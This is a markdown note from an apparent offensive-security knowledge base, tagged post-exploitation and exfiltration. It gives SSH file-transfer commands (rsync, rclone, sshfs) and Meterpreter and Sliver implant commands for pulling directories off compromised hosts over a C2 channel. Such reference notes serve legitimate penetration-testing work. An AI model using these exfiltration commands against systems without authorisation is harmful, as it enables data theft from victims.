 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - ssh
  - linux
---
```

# Client

## 01 - Download

### 1.1 - Rsync

> [!IMPORTANT] Conditions
> The SSH server must have [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/Rsync|`rsync`]] installed.

```
$ rsync -r[v]huzPe "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <username>@<IP>:<file_source> <file_destination>
```

## 02 - Upload

### 2.1 - Rsync

```
$ rsync -r[v]huPze "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <file_source> <username>@<IP>:<file_destination>
```

> [!CAUTION]
> `--remove-source-files` flag will remove the files from the source directory. Think of it as moving all the data to the destination then cleans up the source.

```
$ rsync --remove-source-files -r[v]huPze "ssh -o UserKnownHostsFile=/dev/null [-p <PORT>]" <file_source> <username>@<IP>:<file_destination>
```

### 2.2 - RClone

Specifying a port number is optional unless a SSH port number has changed

```
$ rclone config create SFTPserver sftp host <IP> user <username> [port <PORT>] pass <password> --config sftphost.conf
```

## 03 - SSHFS

Mount SSH server as a filesystem

```
$ sudo mkdir /mnt/ssh_filesystem && sudo chown $USER:$USER /mnt/ssh_filesystem/

$ sshfs <username>@<IP>:/path/to/remote/directory/ /mnt/ssh_filesystem/ -C [-p <PORT>]
```

To unmount the filesystem

```
$ fusermount -u /mnt/ssh_filesystem/
```

### 3.1 - Use Cases

#### 3.1.1 - Exfiltration over C2 channel

##### 3.1.1.1 - Metasploit

```
meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/
```

##### 3.1.1.2 - Sliver

```
sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Cross Platform/RClone|RClone]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Cross Platform/C2 Frameworks/Metasploit|Metasploit: Data Exfiltration]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Cross Platform/C2 Frameworks/Sliver|Sliver: Data Exfiltration]]

### Source Repository

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)